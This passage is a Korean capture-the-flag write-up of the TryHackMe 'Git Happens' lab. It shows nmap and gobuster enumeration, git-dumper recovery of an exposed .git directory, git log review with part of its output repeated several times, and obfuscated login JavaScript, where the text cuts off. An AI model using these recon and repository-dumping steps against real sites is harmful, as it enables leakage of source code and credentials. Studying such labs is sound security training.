






# Description


## **Git Happens**

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!



# 초기 화면




# 풀이


## 1-1. NMAP 스캔



- Nmap 옵션
    - -sC(Script Scan): **기본 스크립트 세트**를 실행, 서비스 탐지, 취약점 점검, 기본 보안 검사 등을 수행
    - -sV(Version Detection):  열린 포트에서 **서비스 버전**을 식별
- .git 레포지토리가 노출되어있음을  확인 + .git/디렉토리 확인

## 1-2. Gobuster로 숨겨진 디렉토리 확인


```
┌──(root㉿vbox)-[~/THM/GitHappens]
└─# gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.89.78
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/css                  (Status: 301) [Size: 194] [--> http://10.201.89.78/css/]                                                                            
/index.html           (Status: 200) [Size: 6890]
Progress: 2400 / 4615 (52.00%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 2410 / 4615 (52.22%)
===============================================================
Finished
===============================================================                                              
```

- .git/ 디렉토리 다시한번 확인

## 2. 숨겨진 디렉토리 접근

---



- 이 디렉토리에서 파일 다운가능



- 열심히 파일들을 뒤져봄
    
    → 나온게 없음
    

## 3. git - dumper를 이용해 git 저장소 복원

---

- git - dumper란
    - 웹 서버에 노출된 .git 디렉토리에서 Git 저장소를 복원하는 도구
    - 전체 소스코드와 커밋 히스토리를 다운로드 할 수 있음

### 설치방법

```bash
[방법1]
git clone https://github.com/arthaud/git-dumper.git
cd git-dumper
pip install -r requirements.txt

[방법2]
pipx install git-dumper
```

### 사용법

```bash
[방법1]
python3 git_dumper.py http://target.com/.git/ output_dir

[방법2]
git-dumper http://<IP>/.git/  output_dir
```

### 결과

- 확인
    
    ```bash
    ──(root㉿vbox)-[~/THM/GitHappens]
    └─# git-dumper --timeout 10 http://$IP/.git/ /root/THM/GitHappens/result
    [-] Testing http://10.201.65.28/.git/HEAD [200]
    [-] Testing http://10.201.65.28/.git/ [200]
    [-] Fetching .git recursively
    [-] Fetching http://10.201.65.28/.git/ [200]
    [-] Fetching http://10.201.65.28/.gitignore [404]
    [-] http://10.201.65.28/.gitignore responded with status code 404
    [-] Fetching http://10.201.65.28/.git/description [200]
    [-] Fetching http://10.201.65.28/.git/branches/ [200]
    [-] Fetching http://10.201.65.28/.git/info/ [200]
    [-] Fetching http://10.201.65.28/.git/logs/ [200]
    [-] Fetching http://10.201.65.28/.git/index [200]
    [-] Fetching http://10.201.65.28/.git/objects/ [200]
    [-] Fetching http://10.201.65.28/.git/HEAD [200]
    [-] Fetching http://10.201.65.28/.git/refs/ [200]
    [-] Fetching http://10.201.65.28/.git/packed-refs [200]
    [-] Fetching http://10.201.65.28/.git/hooks/ [200]
    [-] Fetching http://10.201.65.28/.git/config [200]
    [-] Fetching http://10.201.65.28/.git/info/exclude [200]
    [-] Fetching http://10.201.65.28/.git/objects/06/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/20/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/0e/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/39/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/2e/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/3a/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/2f/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/48/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/08/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/4a/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/4c/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/4e/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/56/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/87/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/5a/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/77/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/7c/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/66/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/8c/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/ae/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/9d/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/ba/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/b8/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/ce/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/bc/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/d0/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/d6/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/dd/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/d9/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/e3/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/e5/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/info/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/f1/ [200]
    [-] Fetching http://10.201.65.28/.git/objects/pack/ [200]
    [-] Fetching http://10.201.65.28/.git/logs/refs/ [200]
    [-] Fetching http://10.201.65.28/.git/logs/HEAD [200]
    [-] Fetching http://10.201.65.28/.git/refs/heads/ [200]
    [-] Fetching http://10.201.65.28/.git/refs/remotes/ [200]
    [-] Fetching http://10.201.65.28/.git/refs/tags/ [200]
    [-] Fetching http://10.201.65.28/.git/hooks/applypatch-msg.sample [200]
    [-] Fetching http://10.201.65.28/.git/hooks/commit-msg.sample [200]
    [-] Fetching http://10.201.65.28/.git/hooks/fsmonitor-watchman.sample [200]
    [-] Fetching http://10.201.65.28/.git/hooks/post-update.sample [200]
    [-] Fetching http://10.201.65.28/.git/hooks/pre-applypatch.sample [200]
    [-] Fetching http://10.201.65.28/.git/hooks/pre-commit.sample [200]
    [-] Fetching http://10.201.65.28/.git/hooks/pre-push.sample [200]
    [-] Fetching http://10.201.65.28/.git/hooks/pre-rebase.sample [200]
    [-] Fetching http://10.201.65.28/.git/hooks/pre-receive.sample [200]
    [-] Fetching http://10.201.65.28/.git/hooks/prepare-commit-msg.sample [200]
    [-] Fetching http://10.201.65.28/.git/hooks/update.sample [200]
    [-] Fetching http://10.201.65.28/.git/objects/06/012255f074d7bc4acc6fadbcff004380b5f83b [200]
    [-] Fetching http://10.201.65.28/.git/objects/20/9515b2f7cbdfb731d275c4b089e41ba35c3bc8 [200]
    [-] Fetching http://10.201.65.28/.git/objects/48/926fdeb371c8ba174b1669d102e8c873afabf1 [200]
    [-] Fetching http://10.201.65.28/.git/objects/39/5e087334d613d5e423cdf8f7be27196a360459 [200]
    [-] Fetching http://10.201.65.28/.git/objects/3a/39b02d3b9d12222bac4737ee67e31403d62f13 [200]
    [-] Fetching http://10.201.65.28/.git/objects/0e/0de07611ada4690fc0ea5b5c04721ba6f3fd0d [200]
    [-] Fetching http://10.201.65.28/.git/objects/0e/abcfcd62467d64fb30b889e8de5886e028c3ed [200]
    [-] Fetching http://10.201.65.28/.git/objects/2e/b93ac3534155069a8ef59cb25b9c1971d5d199 [200]
    [-] Fetching http://10.201.65.28/.git/objects/08/906612dfe6821cebc21794eb85601fc4f54de9 [200]
    [-] Fetching http://10.201.65.28/.git/objects/2f/423697bf81fe5956684f66fb6fc6596a1903cc [200]
    [-] Fetching http://10.201.65.28/.git/objects/4a/2aab268541cbcc434e0565b4f4f2deca29ee5f [200]
    [-] Fetching http://10.201.65.28/.git/objects/4c/f757268c6824041664d132a29908aa9c362a26 [200]
    [-] Fetching http://10.201.65.28/.git/objects/4e/7178fa5b68fec15e54f2b79ace6f9ce0169e01 [200]
    [-] Fetching http://10.201.65.28/.git/objects/56/820adbbd5ac0f66f61916122c94ea52937e9b2 [200]
    [-] Fetching http://10.201.65.28/.git/objects/87/bcbcb476578c6cc90ed39f9404292539fe1c9c [200]
    [-] Fetching http://10.201.65.28/.git/objects/7c/578d86a8713b67af2cb1b1d7c524c23cefe7aa [200]
    [-] Fetching http://10.201.65.28/.git/objects/66/64f4e548df7591da3728d7662b6376debfce8d [200]
    [-] Fetching http://10.201.65.28/.git/objects/5a/35c9b7c787c22f689d0364cf57b013a11561a2 [200]
    [-] Fetching http://10.201.65.28/.git/objects/8c/94b154aef92380e29a3f16f1a889b56127cf13 [200]
    [-] Fetching http://10.201.65.28/.git/objects/77/aab78e2624ec9400f9ed3f43a6f0c942eeb82d [200]
    [-] Fetching http://10.201.65.28/.git/objects/9d/74a92581071ae7c4a470ff035e0de4598877e5 [200]
    [-] Fetching http://10.201.65.28/.git/objects/ae/f68b1e25df81a8c96ee4d57b20cc9f7a1ebee5 [200]
    [-] Fetching http://10.201.65.28/.git/objects/ba/5e4a76e3f7b6c49850c41716f8f1091fbdc84e [200]
    [-] Fetching http://10.201.65.28/.git/objects/b8/6ab47bacf3550a5450b0eb324e36ce46ba73f1 [200]
    [-] Fetching http://10.201.65.28/.git/objects/bc/8054d9d95854d278359a432b6d97c27e24061d [200]
    [-] Fetching http://10.201.65.28/.git/objects/d6/df4000639981d032f628af2b4d03b8eff31213 [200]
    [-] Fetching http://10.201.65.28/.git/objects/d9/54a99b96ff11c37a558a5d93ce52d0f3702a7d [200]
    [-] Fetching http://10.201.65.28/.git/objects/d0/b3578a628889f38c0affb1b75457146a4678e5 [200]
    [-] Fetching http://10.201.65.28/.git/objects/ce/b8d530ebcf79806dffc981905ec8c2e0d7a65b [200]
    [-] Fetching http://10.201.65.28/.git/objects/dd/13038df878d41b774ce4fd4552091d46873c25 [200]
    [-] Fetching http://10.201.65.28/.git/objects/e3/8d9df9b13e6499b749e36e064ec30f2fa45657 [200]
    [-] Fetching http://10.201.65.28/.git/objects/e5/6eaa8e29b589976f33d76bc58a0c4dfb9315b1 [200]
    [-] Fetching http://10.201.65.28/.git/objects/f1/4bcee8053e39eeb414053db4ec7b985f65edc8 [200]
    [-] Fetching http://10.201.65.28/.git/logs/refs/heads/ [200]
    [-] Fetching http://10.201.65.28/.git/logs/refs/remotes/ [200]
    [-] Fetching http://10.201.65.28/.git/refs/heads/master [200]
    [-] Fetching http://10.201.65.28/.git/logs/refs/heads/master [200]
    [-] Sanitizing .git/config
    [-] Running git checkout .
    Updated 7 paths from the index
    
    ```
    

## 4. 깃 로그 확인

---

```bash
┌──(root㉿vbox)-[~/THM/GitHappens/result]
└─# git log                                                             
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>

commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>

commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isn't enough.
    
    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.
    
    Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

commit 2f423697bf81fe5956684f66fb6fc6596a1903cc
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Mon Jul 20 20:46:28 2020 +0000

    Initial commit
(END)

```

### Commit 내용 확인

---

- `git checkout`
    - Git에서 브랜치나 특정 커밋으로 작업 디렉토리를 전환하는 명령어

```bash
git checkout <commit_hash> //  특정 커밋 상태로 작업 디렉토리를 전환

// 그 커밋 시점의 스냅샷으로 작업 디렉토리를 전환할 수 있음.
// 즉, 그 당시의 파일 상태를 그대로 확인할 수 있음
```

```bash
**┌──(root㉿vbox)-[~/THM/GitHappens/result]
└─# git checkout 395e087334d613d5e423cdf8f7be27196a360459 
Note: switching to '395e087334d613d5e423cdf8f7be27196a360459'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD의 현재 위치는 395e087 Made the login page, boss!**
                                                        
```

### 참고자료

[Git - Viewing the Commit History](https://git-scm.com/book/en/v2/Git-Basics-Viewing-the-Commit-History)

## 5. index.html


### 기존 파일

```bash
┌──(root㉿vbox)-[~/THM/GitHappens/result2]
└─# cat index.html   
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Super Awesome Site!</title>
    <link rel="stylesheet" href="/css/style.css">
  </head>
  <body>
    <h1>Login</h1>
    <form class="login-form" id="login-form">
     <div class="flex-row">
         <p class="error" id="error"></p>
     </div>
      <div class="flex-row">
        <label class="lf--label" for="username">
          <svg x="0px" y="0px" width="12px" height="13px">
            <path
              fill="#B1B7C4"
              d="M8.9,7.2C9,6.9,9,6.7,9,6.5v-4C9,1.1,7.9,0,6.5,0h-1C4.1,0,3,1.1,3,2.5v4c0,0.2,0,0.4,0.1,0.7 C1.3,7.8,0,9.5,0,11.5V13h12v-1.5C12,9.5,10.7,7.8,8.9,7.2z M4,2.5C4,1.7,4.7,1,5.5,1h1C7.3,1,8,1.7,8,2.5v4c0,0.2,0,0.4-0.1,0.6 l0.1,0L7.9,7.3C7.6,7.8,7.1,8.2,6.5,8.2h-1c-0.6,0-1.1-0.4-1.4-0.9L4.1,7.1l0.1,0C4,6.9,4,6.7,4,6.5V2.5z M11,12H1v-0.5 c0-1.6,1-2.9,2.4-3.4c0.5,0.7,1.2,1.1,2.1,1.1h1c0.8,0,1.6-0.4,2.1-1.1C10,8.5,11,9.9,11,11.5V12z"
            />
          </svg>
        </label>
        <input
          id="username"
          name="username"
          class="lf--input"
          placeholder="Username"
          type="text"
        />
      </div>
      <div class="flex-row">
        <label class="lf--label" for="password">
          <svg x="0px" y="0px" width="15px" height="5px">
            <g>
              <path
                fill="#B1B7C4"
                d="M6,2L6,2c0-1.1-1-2-2.1-2H2.1C1,0,0,0.9,0,2.1v0.8C0,4.1,1,5,2.1,5h1.7C5,5,6,4.1,6,2.9V3h5v1h1V3h1v2h1V3h1 V2H6z M5.1,2.9c0,0.7-0.6,1.2-1.3,1.2H2.1c-0.7,0-1.3-0.6-1.3-1.2V2.1c0-0.7,0.6-1.2,1.3-1.2h1.7c0.7,0,1.3,0.6,1.3,1.2V2.9z"
              />
            </g>
          </svg>
        </label>
        <input
          id="password"
          name="password"
          class="lf--input"
          placeholder="Password"
          type="password"
        />
      </div>
      <input class='lf--submit' type="button" value="LOGIN" onclick="login()" />
    </form>

   

    <script>
        const _0x4368=['+(\x20+[^','471197','value','RegExp','functi','test','CbRnH','passwo','userna','TML','tml','a865c5','+[^\x20]}','a5f298','cookie','admin','3a71fd','getEle','login-','^([^\x20]','TEhxP','href','f64cb3','51a151','d84319','D\x20USER','digest','R\x20PASS','oard.h','error','\x20]+)+)','19a3c0','f80f67','/dashb','bea070','3ec9cb','padSta','from','4004c2','WORD!','map','NAME\x20O','encode','INVALI','a5106e','baf89f','6a7c7c','elemen','9a88db','log','join','innerH','SaltyB','apply','ned','442a9d','mentBy'];(function(_0x1ef2d8,_0x436806){const _0x2c2818=function(_0x302738){while(--_0x302738){_0x1ef2d8['push'](_0x1ef2d8['shift']());}},_0x6f8b4a=function(){const _0x2e9681={'data':{'key':'cookie','value':'timeout'},'setCookie':function(_0x329b53,_0x28dc3d,_0x22f4a3,_0x6012c1){_0x6012c1=_0x6012c1||{};let _0x3d8f23=_0x28dc3d+'='+_0x22f4a3,_0x18026e=0x0;for(let _0x4175c9=0x0,_0x25d1be=_0x329b53['length'];_0x4175c9<_0x25d1be;_0x4175c9++){const _0x109e81=_0x329b53[_0x4175c9];_0x3d8f23+=';\x20'+_0x109e81;const _0x1e9a27=_0x329b53[_0x109e81];_0x329b53['push'](_0x1e9a27),_0x25d1be=_0x329b53['length'],_0x1e9a27!==!![]&&(_0x3d8f23+='='+_0x1e9a27);}_0x6012c1['cookie']=_0x3d8f23;},'removeCookie':function(){return'dev';},'getCookie':function(_0x3e797a,_0x2a5b7d){_0x3e797a=_0x3e797a||function(_0x242cdf){return _0x242cdf;};const _0x996bc1=_0x3e797a(new RegExp('(?:^|;\x20)'+_0x2a5b7d['replace'](/([.$?*|{}()[]\/+^])/g,'$1')+'=([^;]*)')),_0x51d0ee=function(_0x439650,_0x52fa41){_0x439650(++_0x52fa41);};return _0x51d0ee(_0x2c2818,_0x436806),_0x996bc1?decodeURIComponent(_0x996bc1[0x1]):undefined;}},_0x17997b=function(){const _0x383e88=new RegExp('\x5cw+\x20*\x5c(\x5c)\x20*{\x5cw+\x20*[\x27|\x22].+[\x27|\x22];?\x20*}');return _0x383e88['test'](_0x2e9681['removeCookie']['toString']());};_0x2e9681['updateCookie']=_0x17997b;let _0x39ee22='';const _0xad377=_0x2e9681['updateCookie']();if(!_0xad377)_0x2e9681['setCookie'](['*'],'counter',0x1);else _0xad377?_0x39ee22=_0x2e9681['getCookie'](null,'counter'):_0x2e9681['removeCookie']();};_0x6f8b4a();}(_0x4368,0xe6));const _0x2c28=function(_0x1ef2d8,_0x436806){_0x1ef2d8=_0x1ef2d8-0x0;let _0x2c2818=_0x4368[_0x1ef2d8];return _0x2c2818;};const _0x22f4a3=function(){let _0x36b504=!![];return function(_0x1087c7,_0x108f32){if(_0x2c28('0x4')===_0x2c28('0x4')){const _0x52d1da=_0x36b504?function(){if(_0x2c28('0x12')!==_0x2c28('0x12')){function _0x382a78(){document[_0x2c28('0xf')+_0x2c28('0x36')+'Id'](_0x2c28('0x1b'))['innerH'+_0x2c28('0x7')]=_0x2c28('0x29')+_0x2c28('0x17')+'NAME\x20O'+_0x2c28('0x19')+_0x2c28('0x25');}}else{if(_0x108f32){const _0x725292=_0x108f32[_0x2c28('0x33')](_0x1087c7,arguments);return _0x108f32=null,_0x725292;}}}:function(){};return _0x36b504=![],_0x52d1da;}else{function _0x323170(){const _0x2ed5f9=_0x36b504?function(){if(_0x108f32){const _0x407994=_0x108f32[_0x2c28('0x33')](_0x1087c7,arguments);return _0x108f32=null,_0x407994;}}:function(){};return _0x36b504=![],_0x2ed5f9;}}};}(),_0x28dc3d=_0x22f4a3(this,function(){const _0x5b8de6=typeof window!=='undefi'+_0x2c28('0x34')?window:typeof process==='object'&&typeof require===_0x2c28('0x2')+'on'&&typeof global==='object'?global:this,_0x4d9f75=function(){const _0x1eee2f=new _0x5b8de6[(_0x2c28('0x1'))](_0x2c28('0x11')+_0x2c28('0x37')+_0x2c28('0x1c')+_0x2c28('0xa'));return!_0x1eee2f[_0x2c28('0x3')](_0x28dc3d);};return _0x4d9f75();});_0x28dc3d();async function login(){let _0x110afb=document[_0x2c28('0xf')+_0x2c28('0x36')+'Id'](_0x2c28('0x10')+'form');console[_0x2c28('0x2f')](_0x110afb[_0x2c28('0x2d')+'ts']);let _0x383cb8=_0x110afb[_0x2c28('0x2d')+'ts'][_0x2c28('0x6')+'me'][_0x2c28('0x0')],_0x5b6063=await 